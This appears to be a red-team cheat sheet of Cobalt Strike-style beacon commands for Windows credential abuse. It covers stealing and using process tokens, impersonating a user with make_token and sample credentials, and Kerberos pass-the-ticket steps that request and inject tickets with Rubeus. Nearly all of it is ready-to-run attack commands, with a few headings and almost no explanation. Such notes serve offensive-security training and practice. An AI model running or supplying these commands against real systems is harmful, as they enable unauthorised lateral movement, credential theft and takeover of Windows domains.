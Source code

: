 
Steal token
```powershell
token-store steal 3184
token-store use 0 
```

```powershell
klist
rev2self
token-store remove 0
kill [ppid]
```

Token Impersonation
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

```powershell
process_browser            [SYSTEM LEVEL BEACON REQUIRED]

ps
token-store steal 5248
token-store show
token-store use 0 
token-store remove 0
```

```powershell
klist
rev2self
```

PtT
Obtain ticket from med-integrity beacon
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap
```

Inject ticket into process from high-integrity beacon
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]
```
